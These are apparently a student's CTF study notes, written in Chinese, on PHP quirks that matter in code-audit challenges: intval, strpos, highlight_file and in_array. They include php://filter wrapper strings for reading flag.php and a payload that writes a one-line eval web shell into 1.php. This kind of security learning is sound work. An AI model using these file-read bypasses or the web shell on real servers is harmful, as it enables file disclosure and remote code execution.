 ```yaml
---
title: php特性
author: StarofEden
desc: 还没刷完，目前刷到139题
date: 2024.11.7
description: php代码审计
categories: 网络安全
---
```

# php特性

## php函数

* ==intval($var,$base)==

1. $var为数组时会返回1，$base为进制。` base=0`,则表示根据var开始的数字决定使用的进制。绕过：`8进制`：010574（0开头） `16进制`：0x117(0x开头)

2. 遇到**字母**或者**符号**停止读取

* ==strpos(string,find,start)==

  ![image-20241031204632014](https://starofeden-blog.oss-cn-chengdu.aliyuncs.com/img/202410312046094.png)

  默认从0开始，有则<span alt="solid">返回第一次出现的位置</span>，无则返回false

  本例中若参数开头为0`?num=01110`    strpos函数会返回0并执行死亡程序

  绕过：<span alt="solid">参数中含有0但开头不能为0</span>
  
* ==highlight_file($_GET['u'])==
  
  <font>用php伪协议</font>

  > ```php
  > php://filter/resource=flag.php
  > php://filter/convert.iconv.UCS-2LE.UCS-2BE/resource=flag.php
  > php://filter/read=convert.quoted-printable-encode/resource=flag.php
  > compress.zlib://flag.php
  > Php://filter/zlib.deflate|zlib.inflate/resource=flag.php
  > ```
  
  参数u限制了不能等于flag.php,可用./flag.php
  或者?u=php://filter/read=convert.base64-encode/resource=flag.php
  
  
  
* ==in_array(search,array,type)==

type为TRUE则 函数还会检查 search的类型是否和 array中的相同

<span alt="solid">没有设置第3个参数则为弱类型比较</span>

![image-20241101132428315](https://starofeden-blog.oss-cn-chengdu.aliyuncs.com/img/202411011324381.png)
```php
?n=1.php   post:content=<?php @eval($_POST['a']); ?>
```
